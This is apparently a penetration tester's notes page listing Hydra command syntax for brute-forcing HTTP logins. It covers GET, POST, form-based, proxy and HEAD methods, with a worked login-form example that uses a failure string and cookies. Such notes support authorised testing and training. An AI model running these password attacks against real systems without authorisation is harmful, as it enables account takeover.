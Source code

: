 # Hydra

## 01 - `GET` HTTP Method

```
$ hydra -L users.lst -P passwords.lst http[s]-get <IP> [-s <PORT>]

$ hydra -L users.lst -P passwords.lst http-get://<IP>:[<PORT>][/path/to/URI]
```

## 02 - `POST` HTTP Method

```
$ hydra -L users.txt -P passwords.txt http[s]-post <IP>[:<PORT>][/path/to/URI]

$ hydra -L users.txt -P passwords.txt http[s]-post://<IP>[:<PORT>][/path/to/URI]
```

## 03 - Form `GET` HTTP Method

```
$ hydra -L users.txt -P passwords.txt http[s]-get-form <IP>[:<PORT>][/path/to/URI]

$ hydra -L users.txt -P passwords.txt http[s]-get-form://<IP>[:<PORT>][/path/to/URI]
```

## 04 - Form `POST` HTTP Method

TODO: Provide every syntax of it's usage for hydra to brute force whatever type of http and provide an example of how to use it

```
$ hydra -L users.lst -P passwords.lst http[s]-form-post <URL_path>:<form parameters>:<condition string>[:<optional>:<optional>]
```

```
$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:Incorrect Password" -vV -f <IP>
```

```
$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:H=Cookie:<cookies_keys_and_values>:F=<invalid_response>"" -vV -f <IP>
```

## 05 - `PROXY` HTTP Method

```
$ hydra -L users.lst -P passwords.lst http-proxy://<IP>:[<PORT>][/path/to/URI]
```

## 06 - PROXY URLEnum HTTP Method

```
$ hydra -L users.lst -P passwords.lst http-proxy-urlenum://<IP>:[<PORT>][/path/to/URI]
```

## 07 - `HEAD` HTTP Method

```
$ hydra -L users.lst -P passwords.lst http[s]-head://<IP>:[<PORT>][/path/to/URI]
```

---
## References

### Backlinks

- [[Password Attacks]]

### Manraj Bansal

- [Manraj Bansal: How to use Hydra to brute force login forms](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)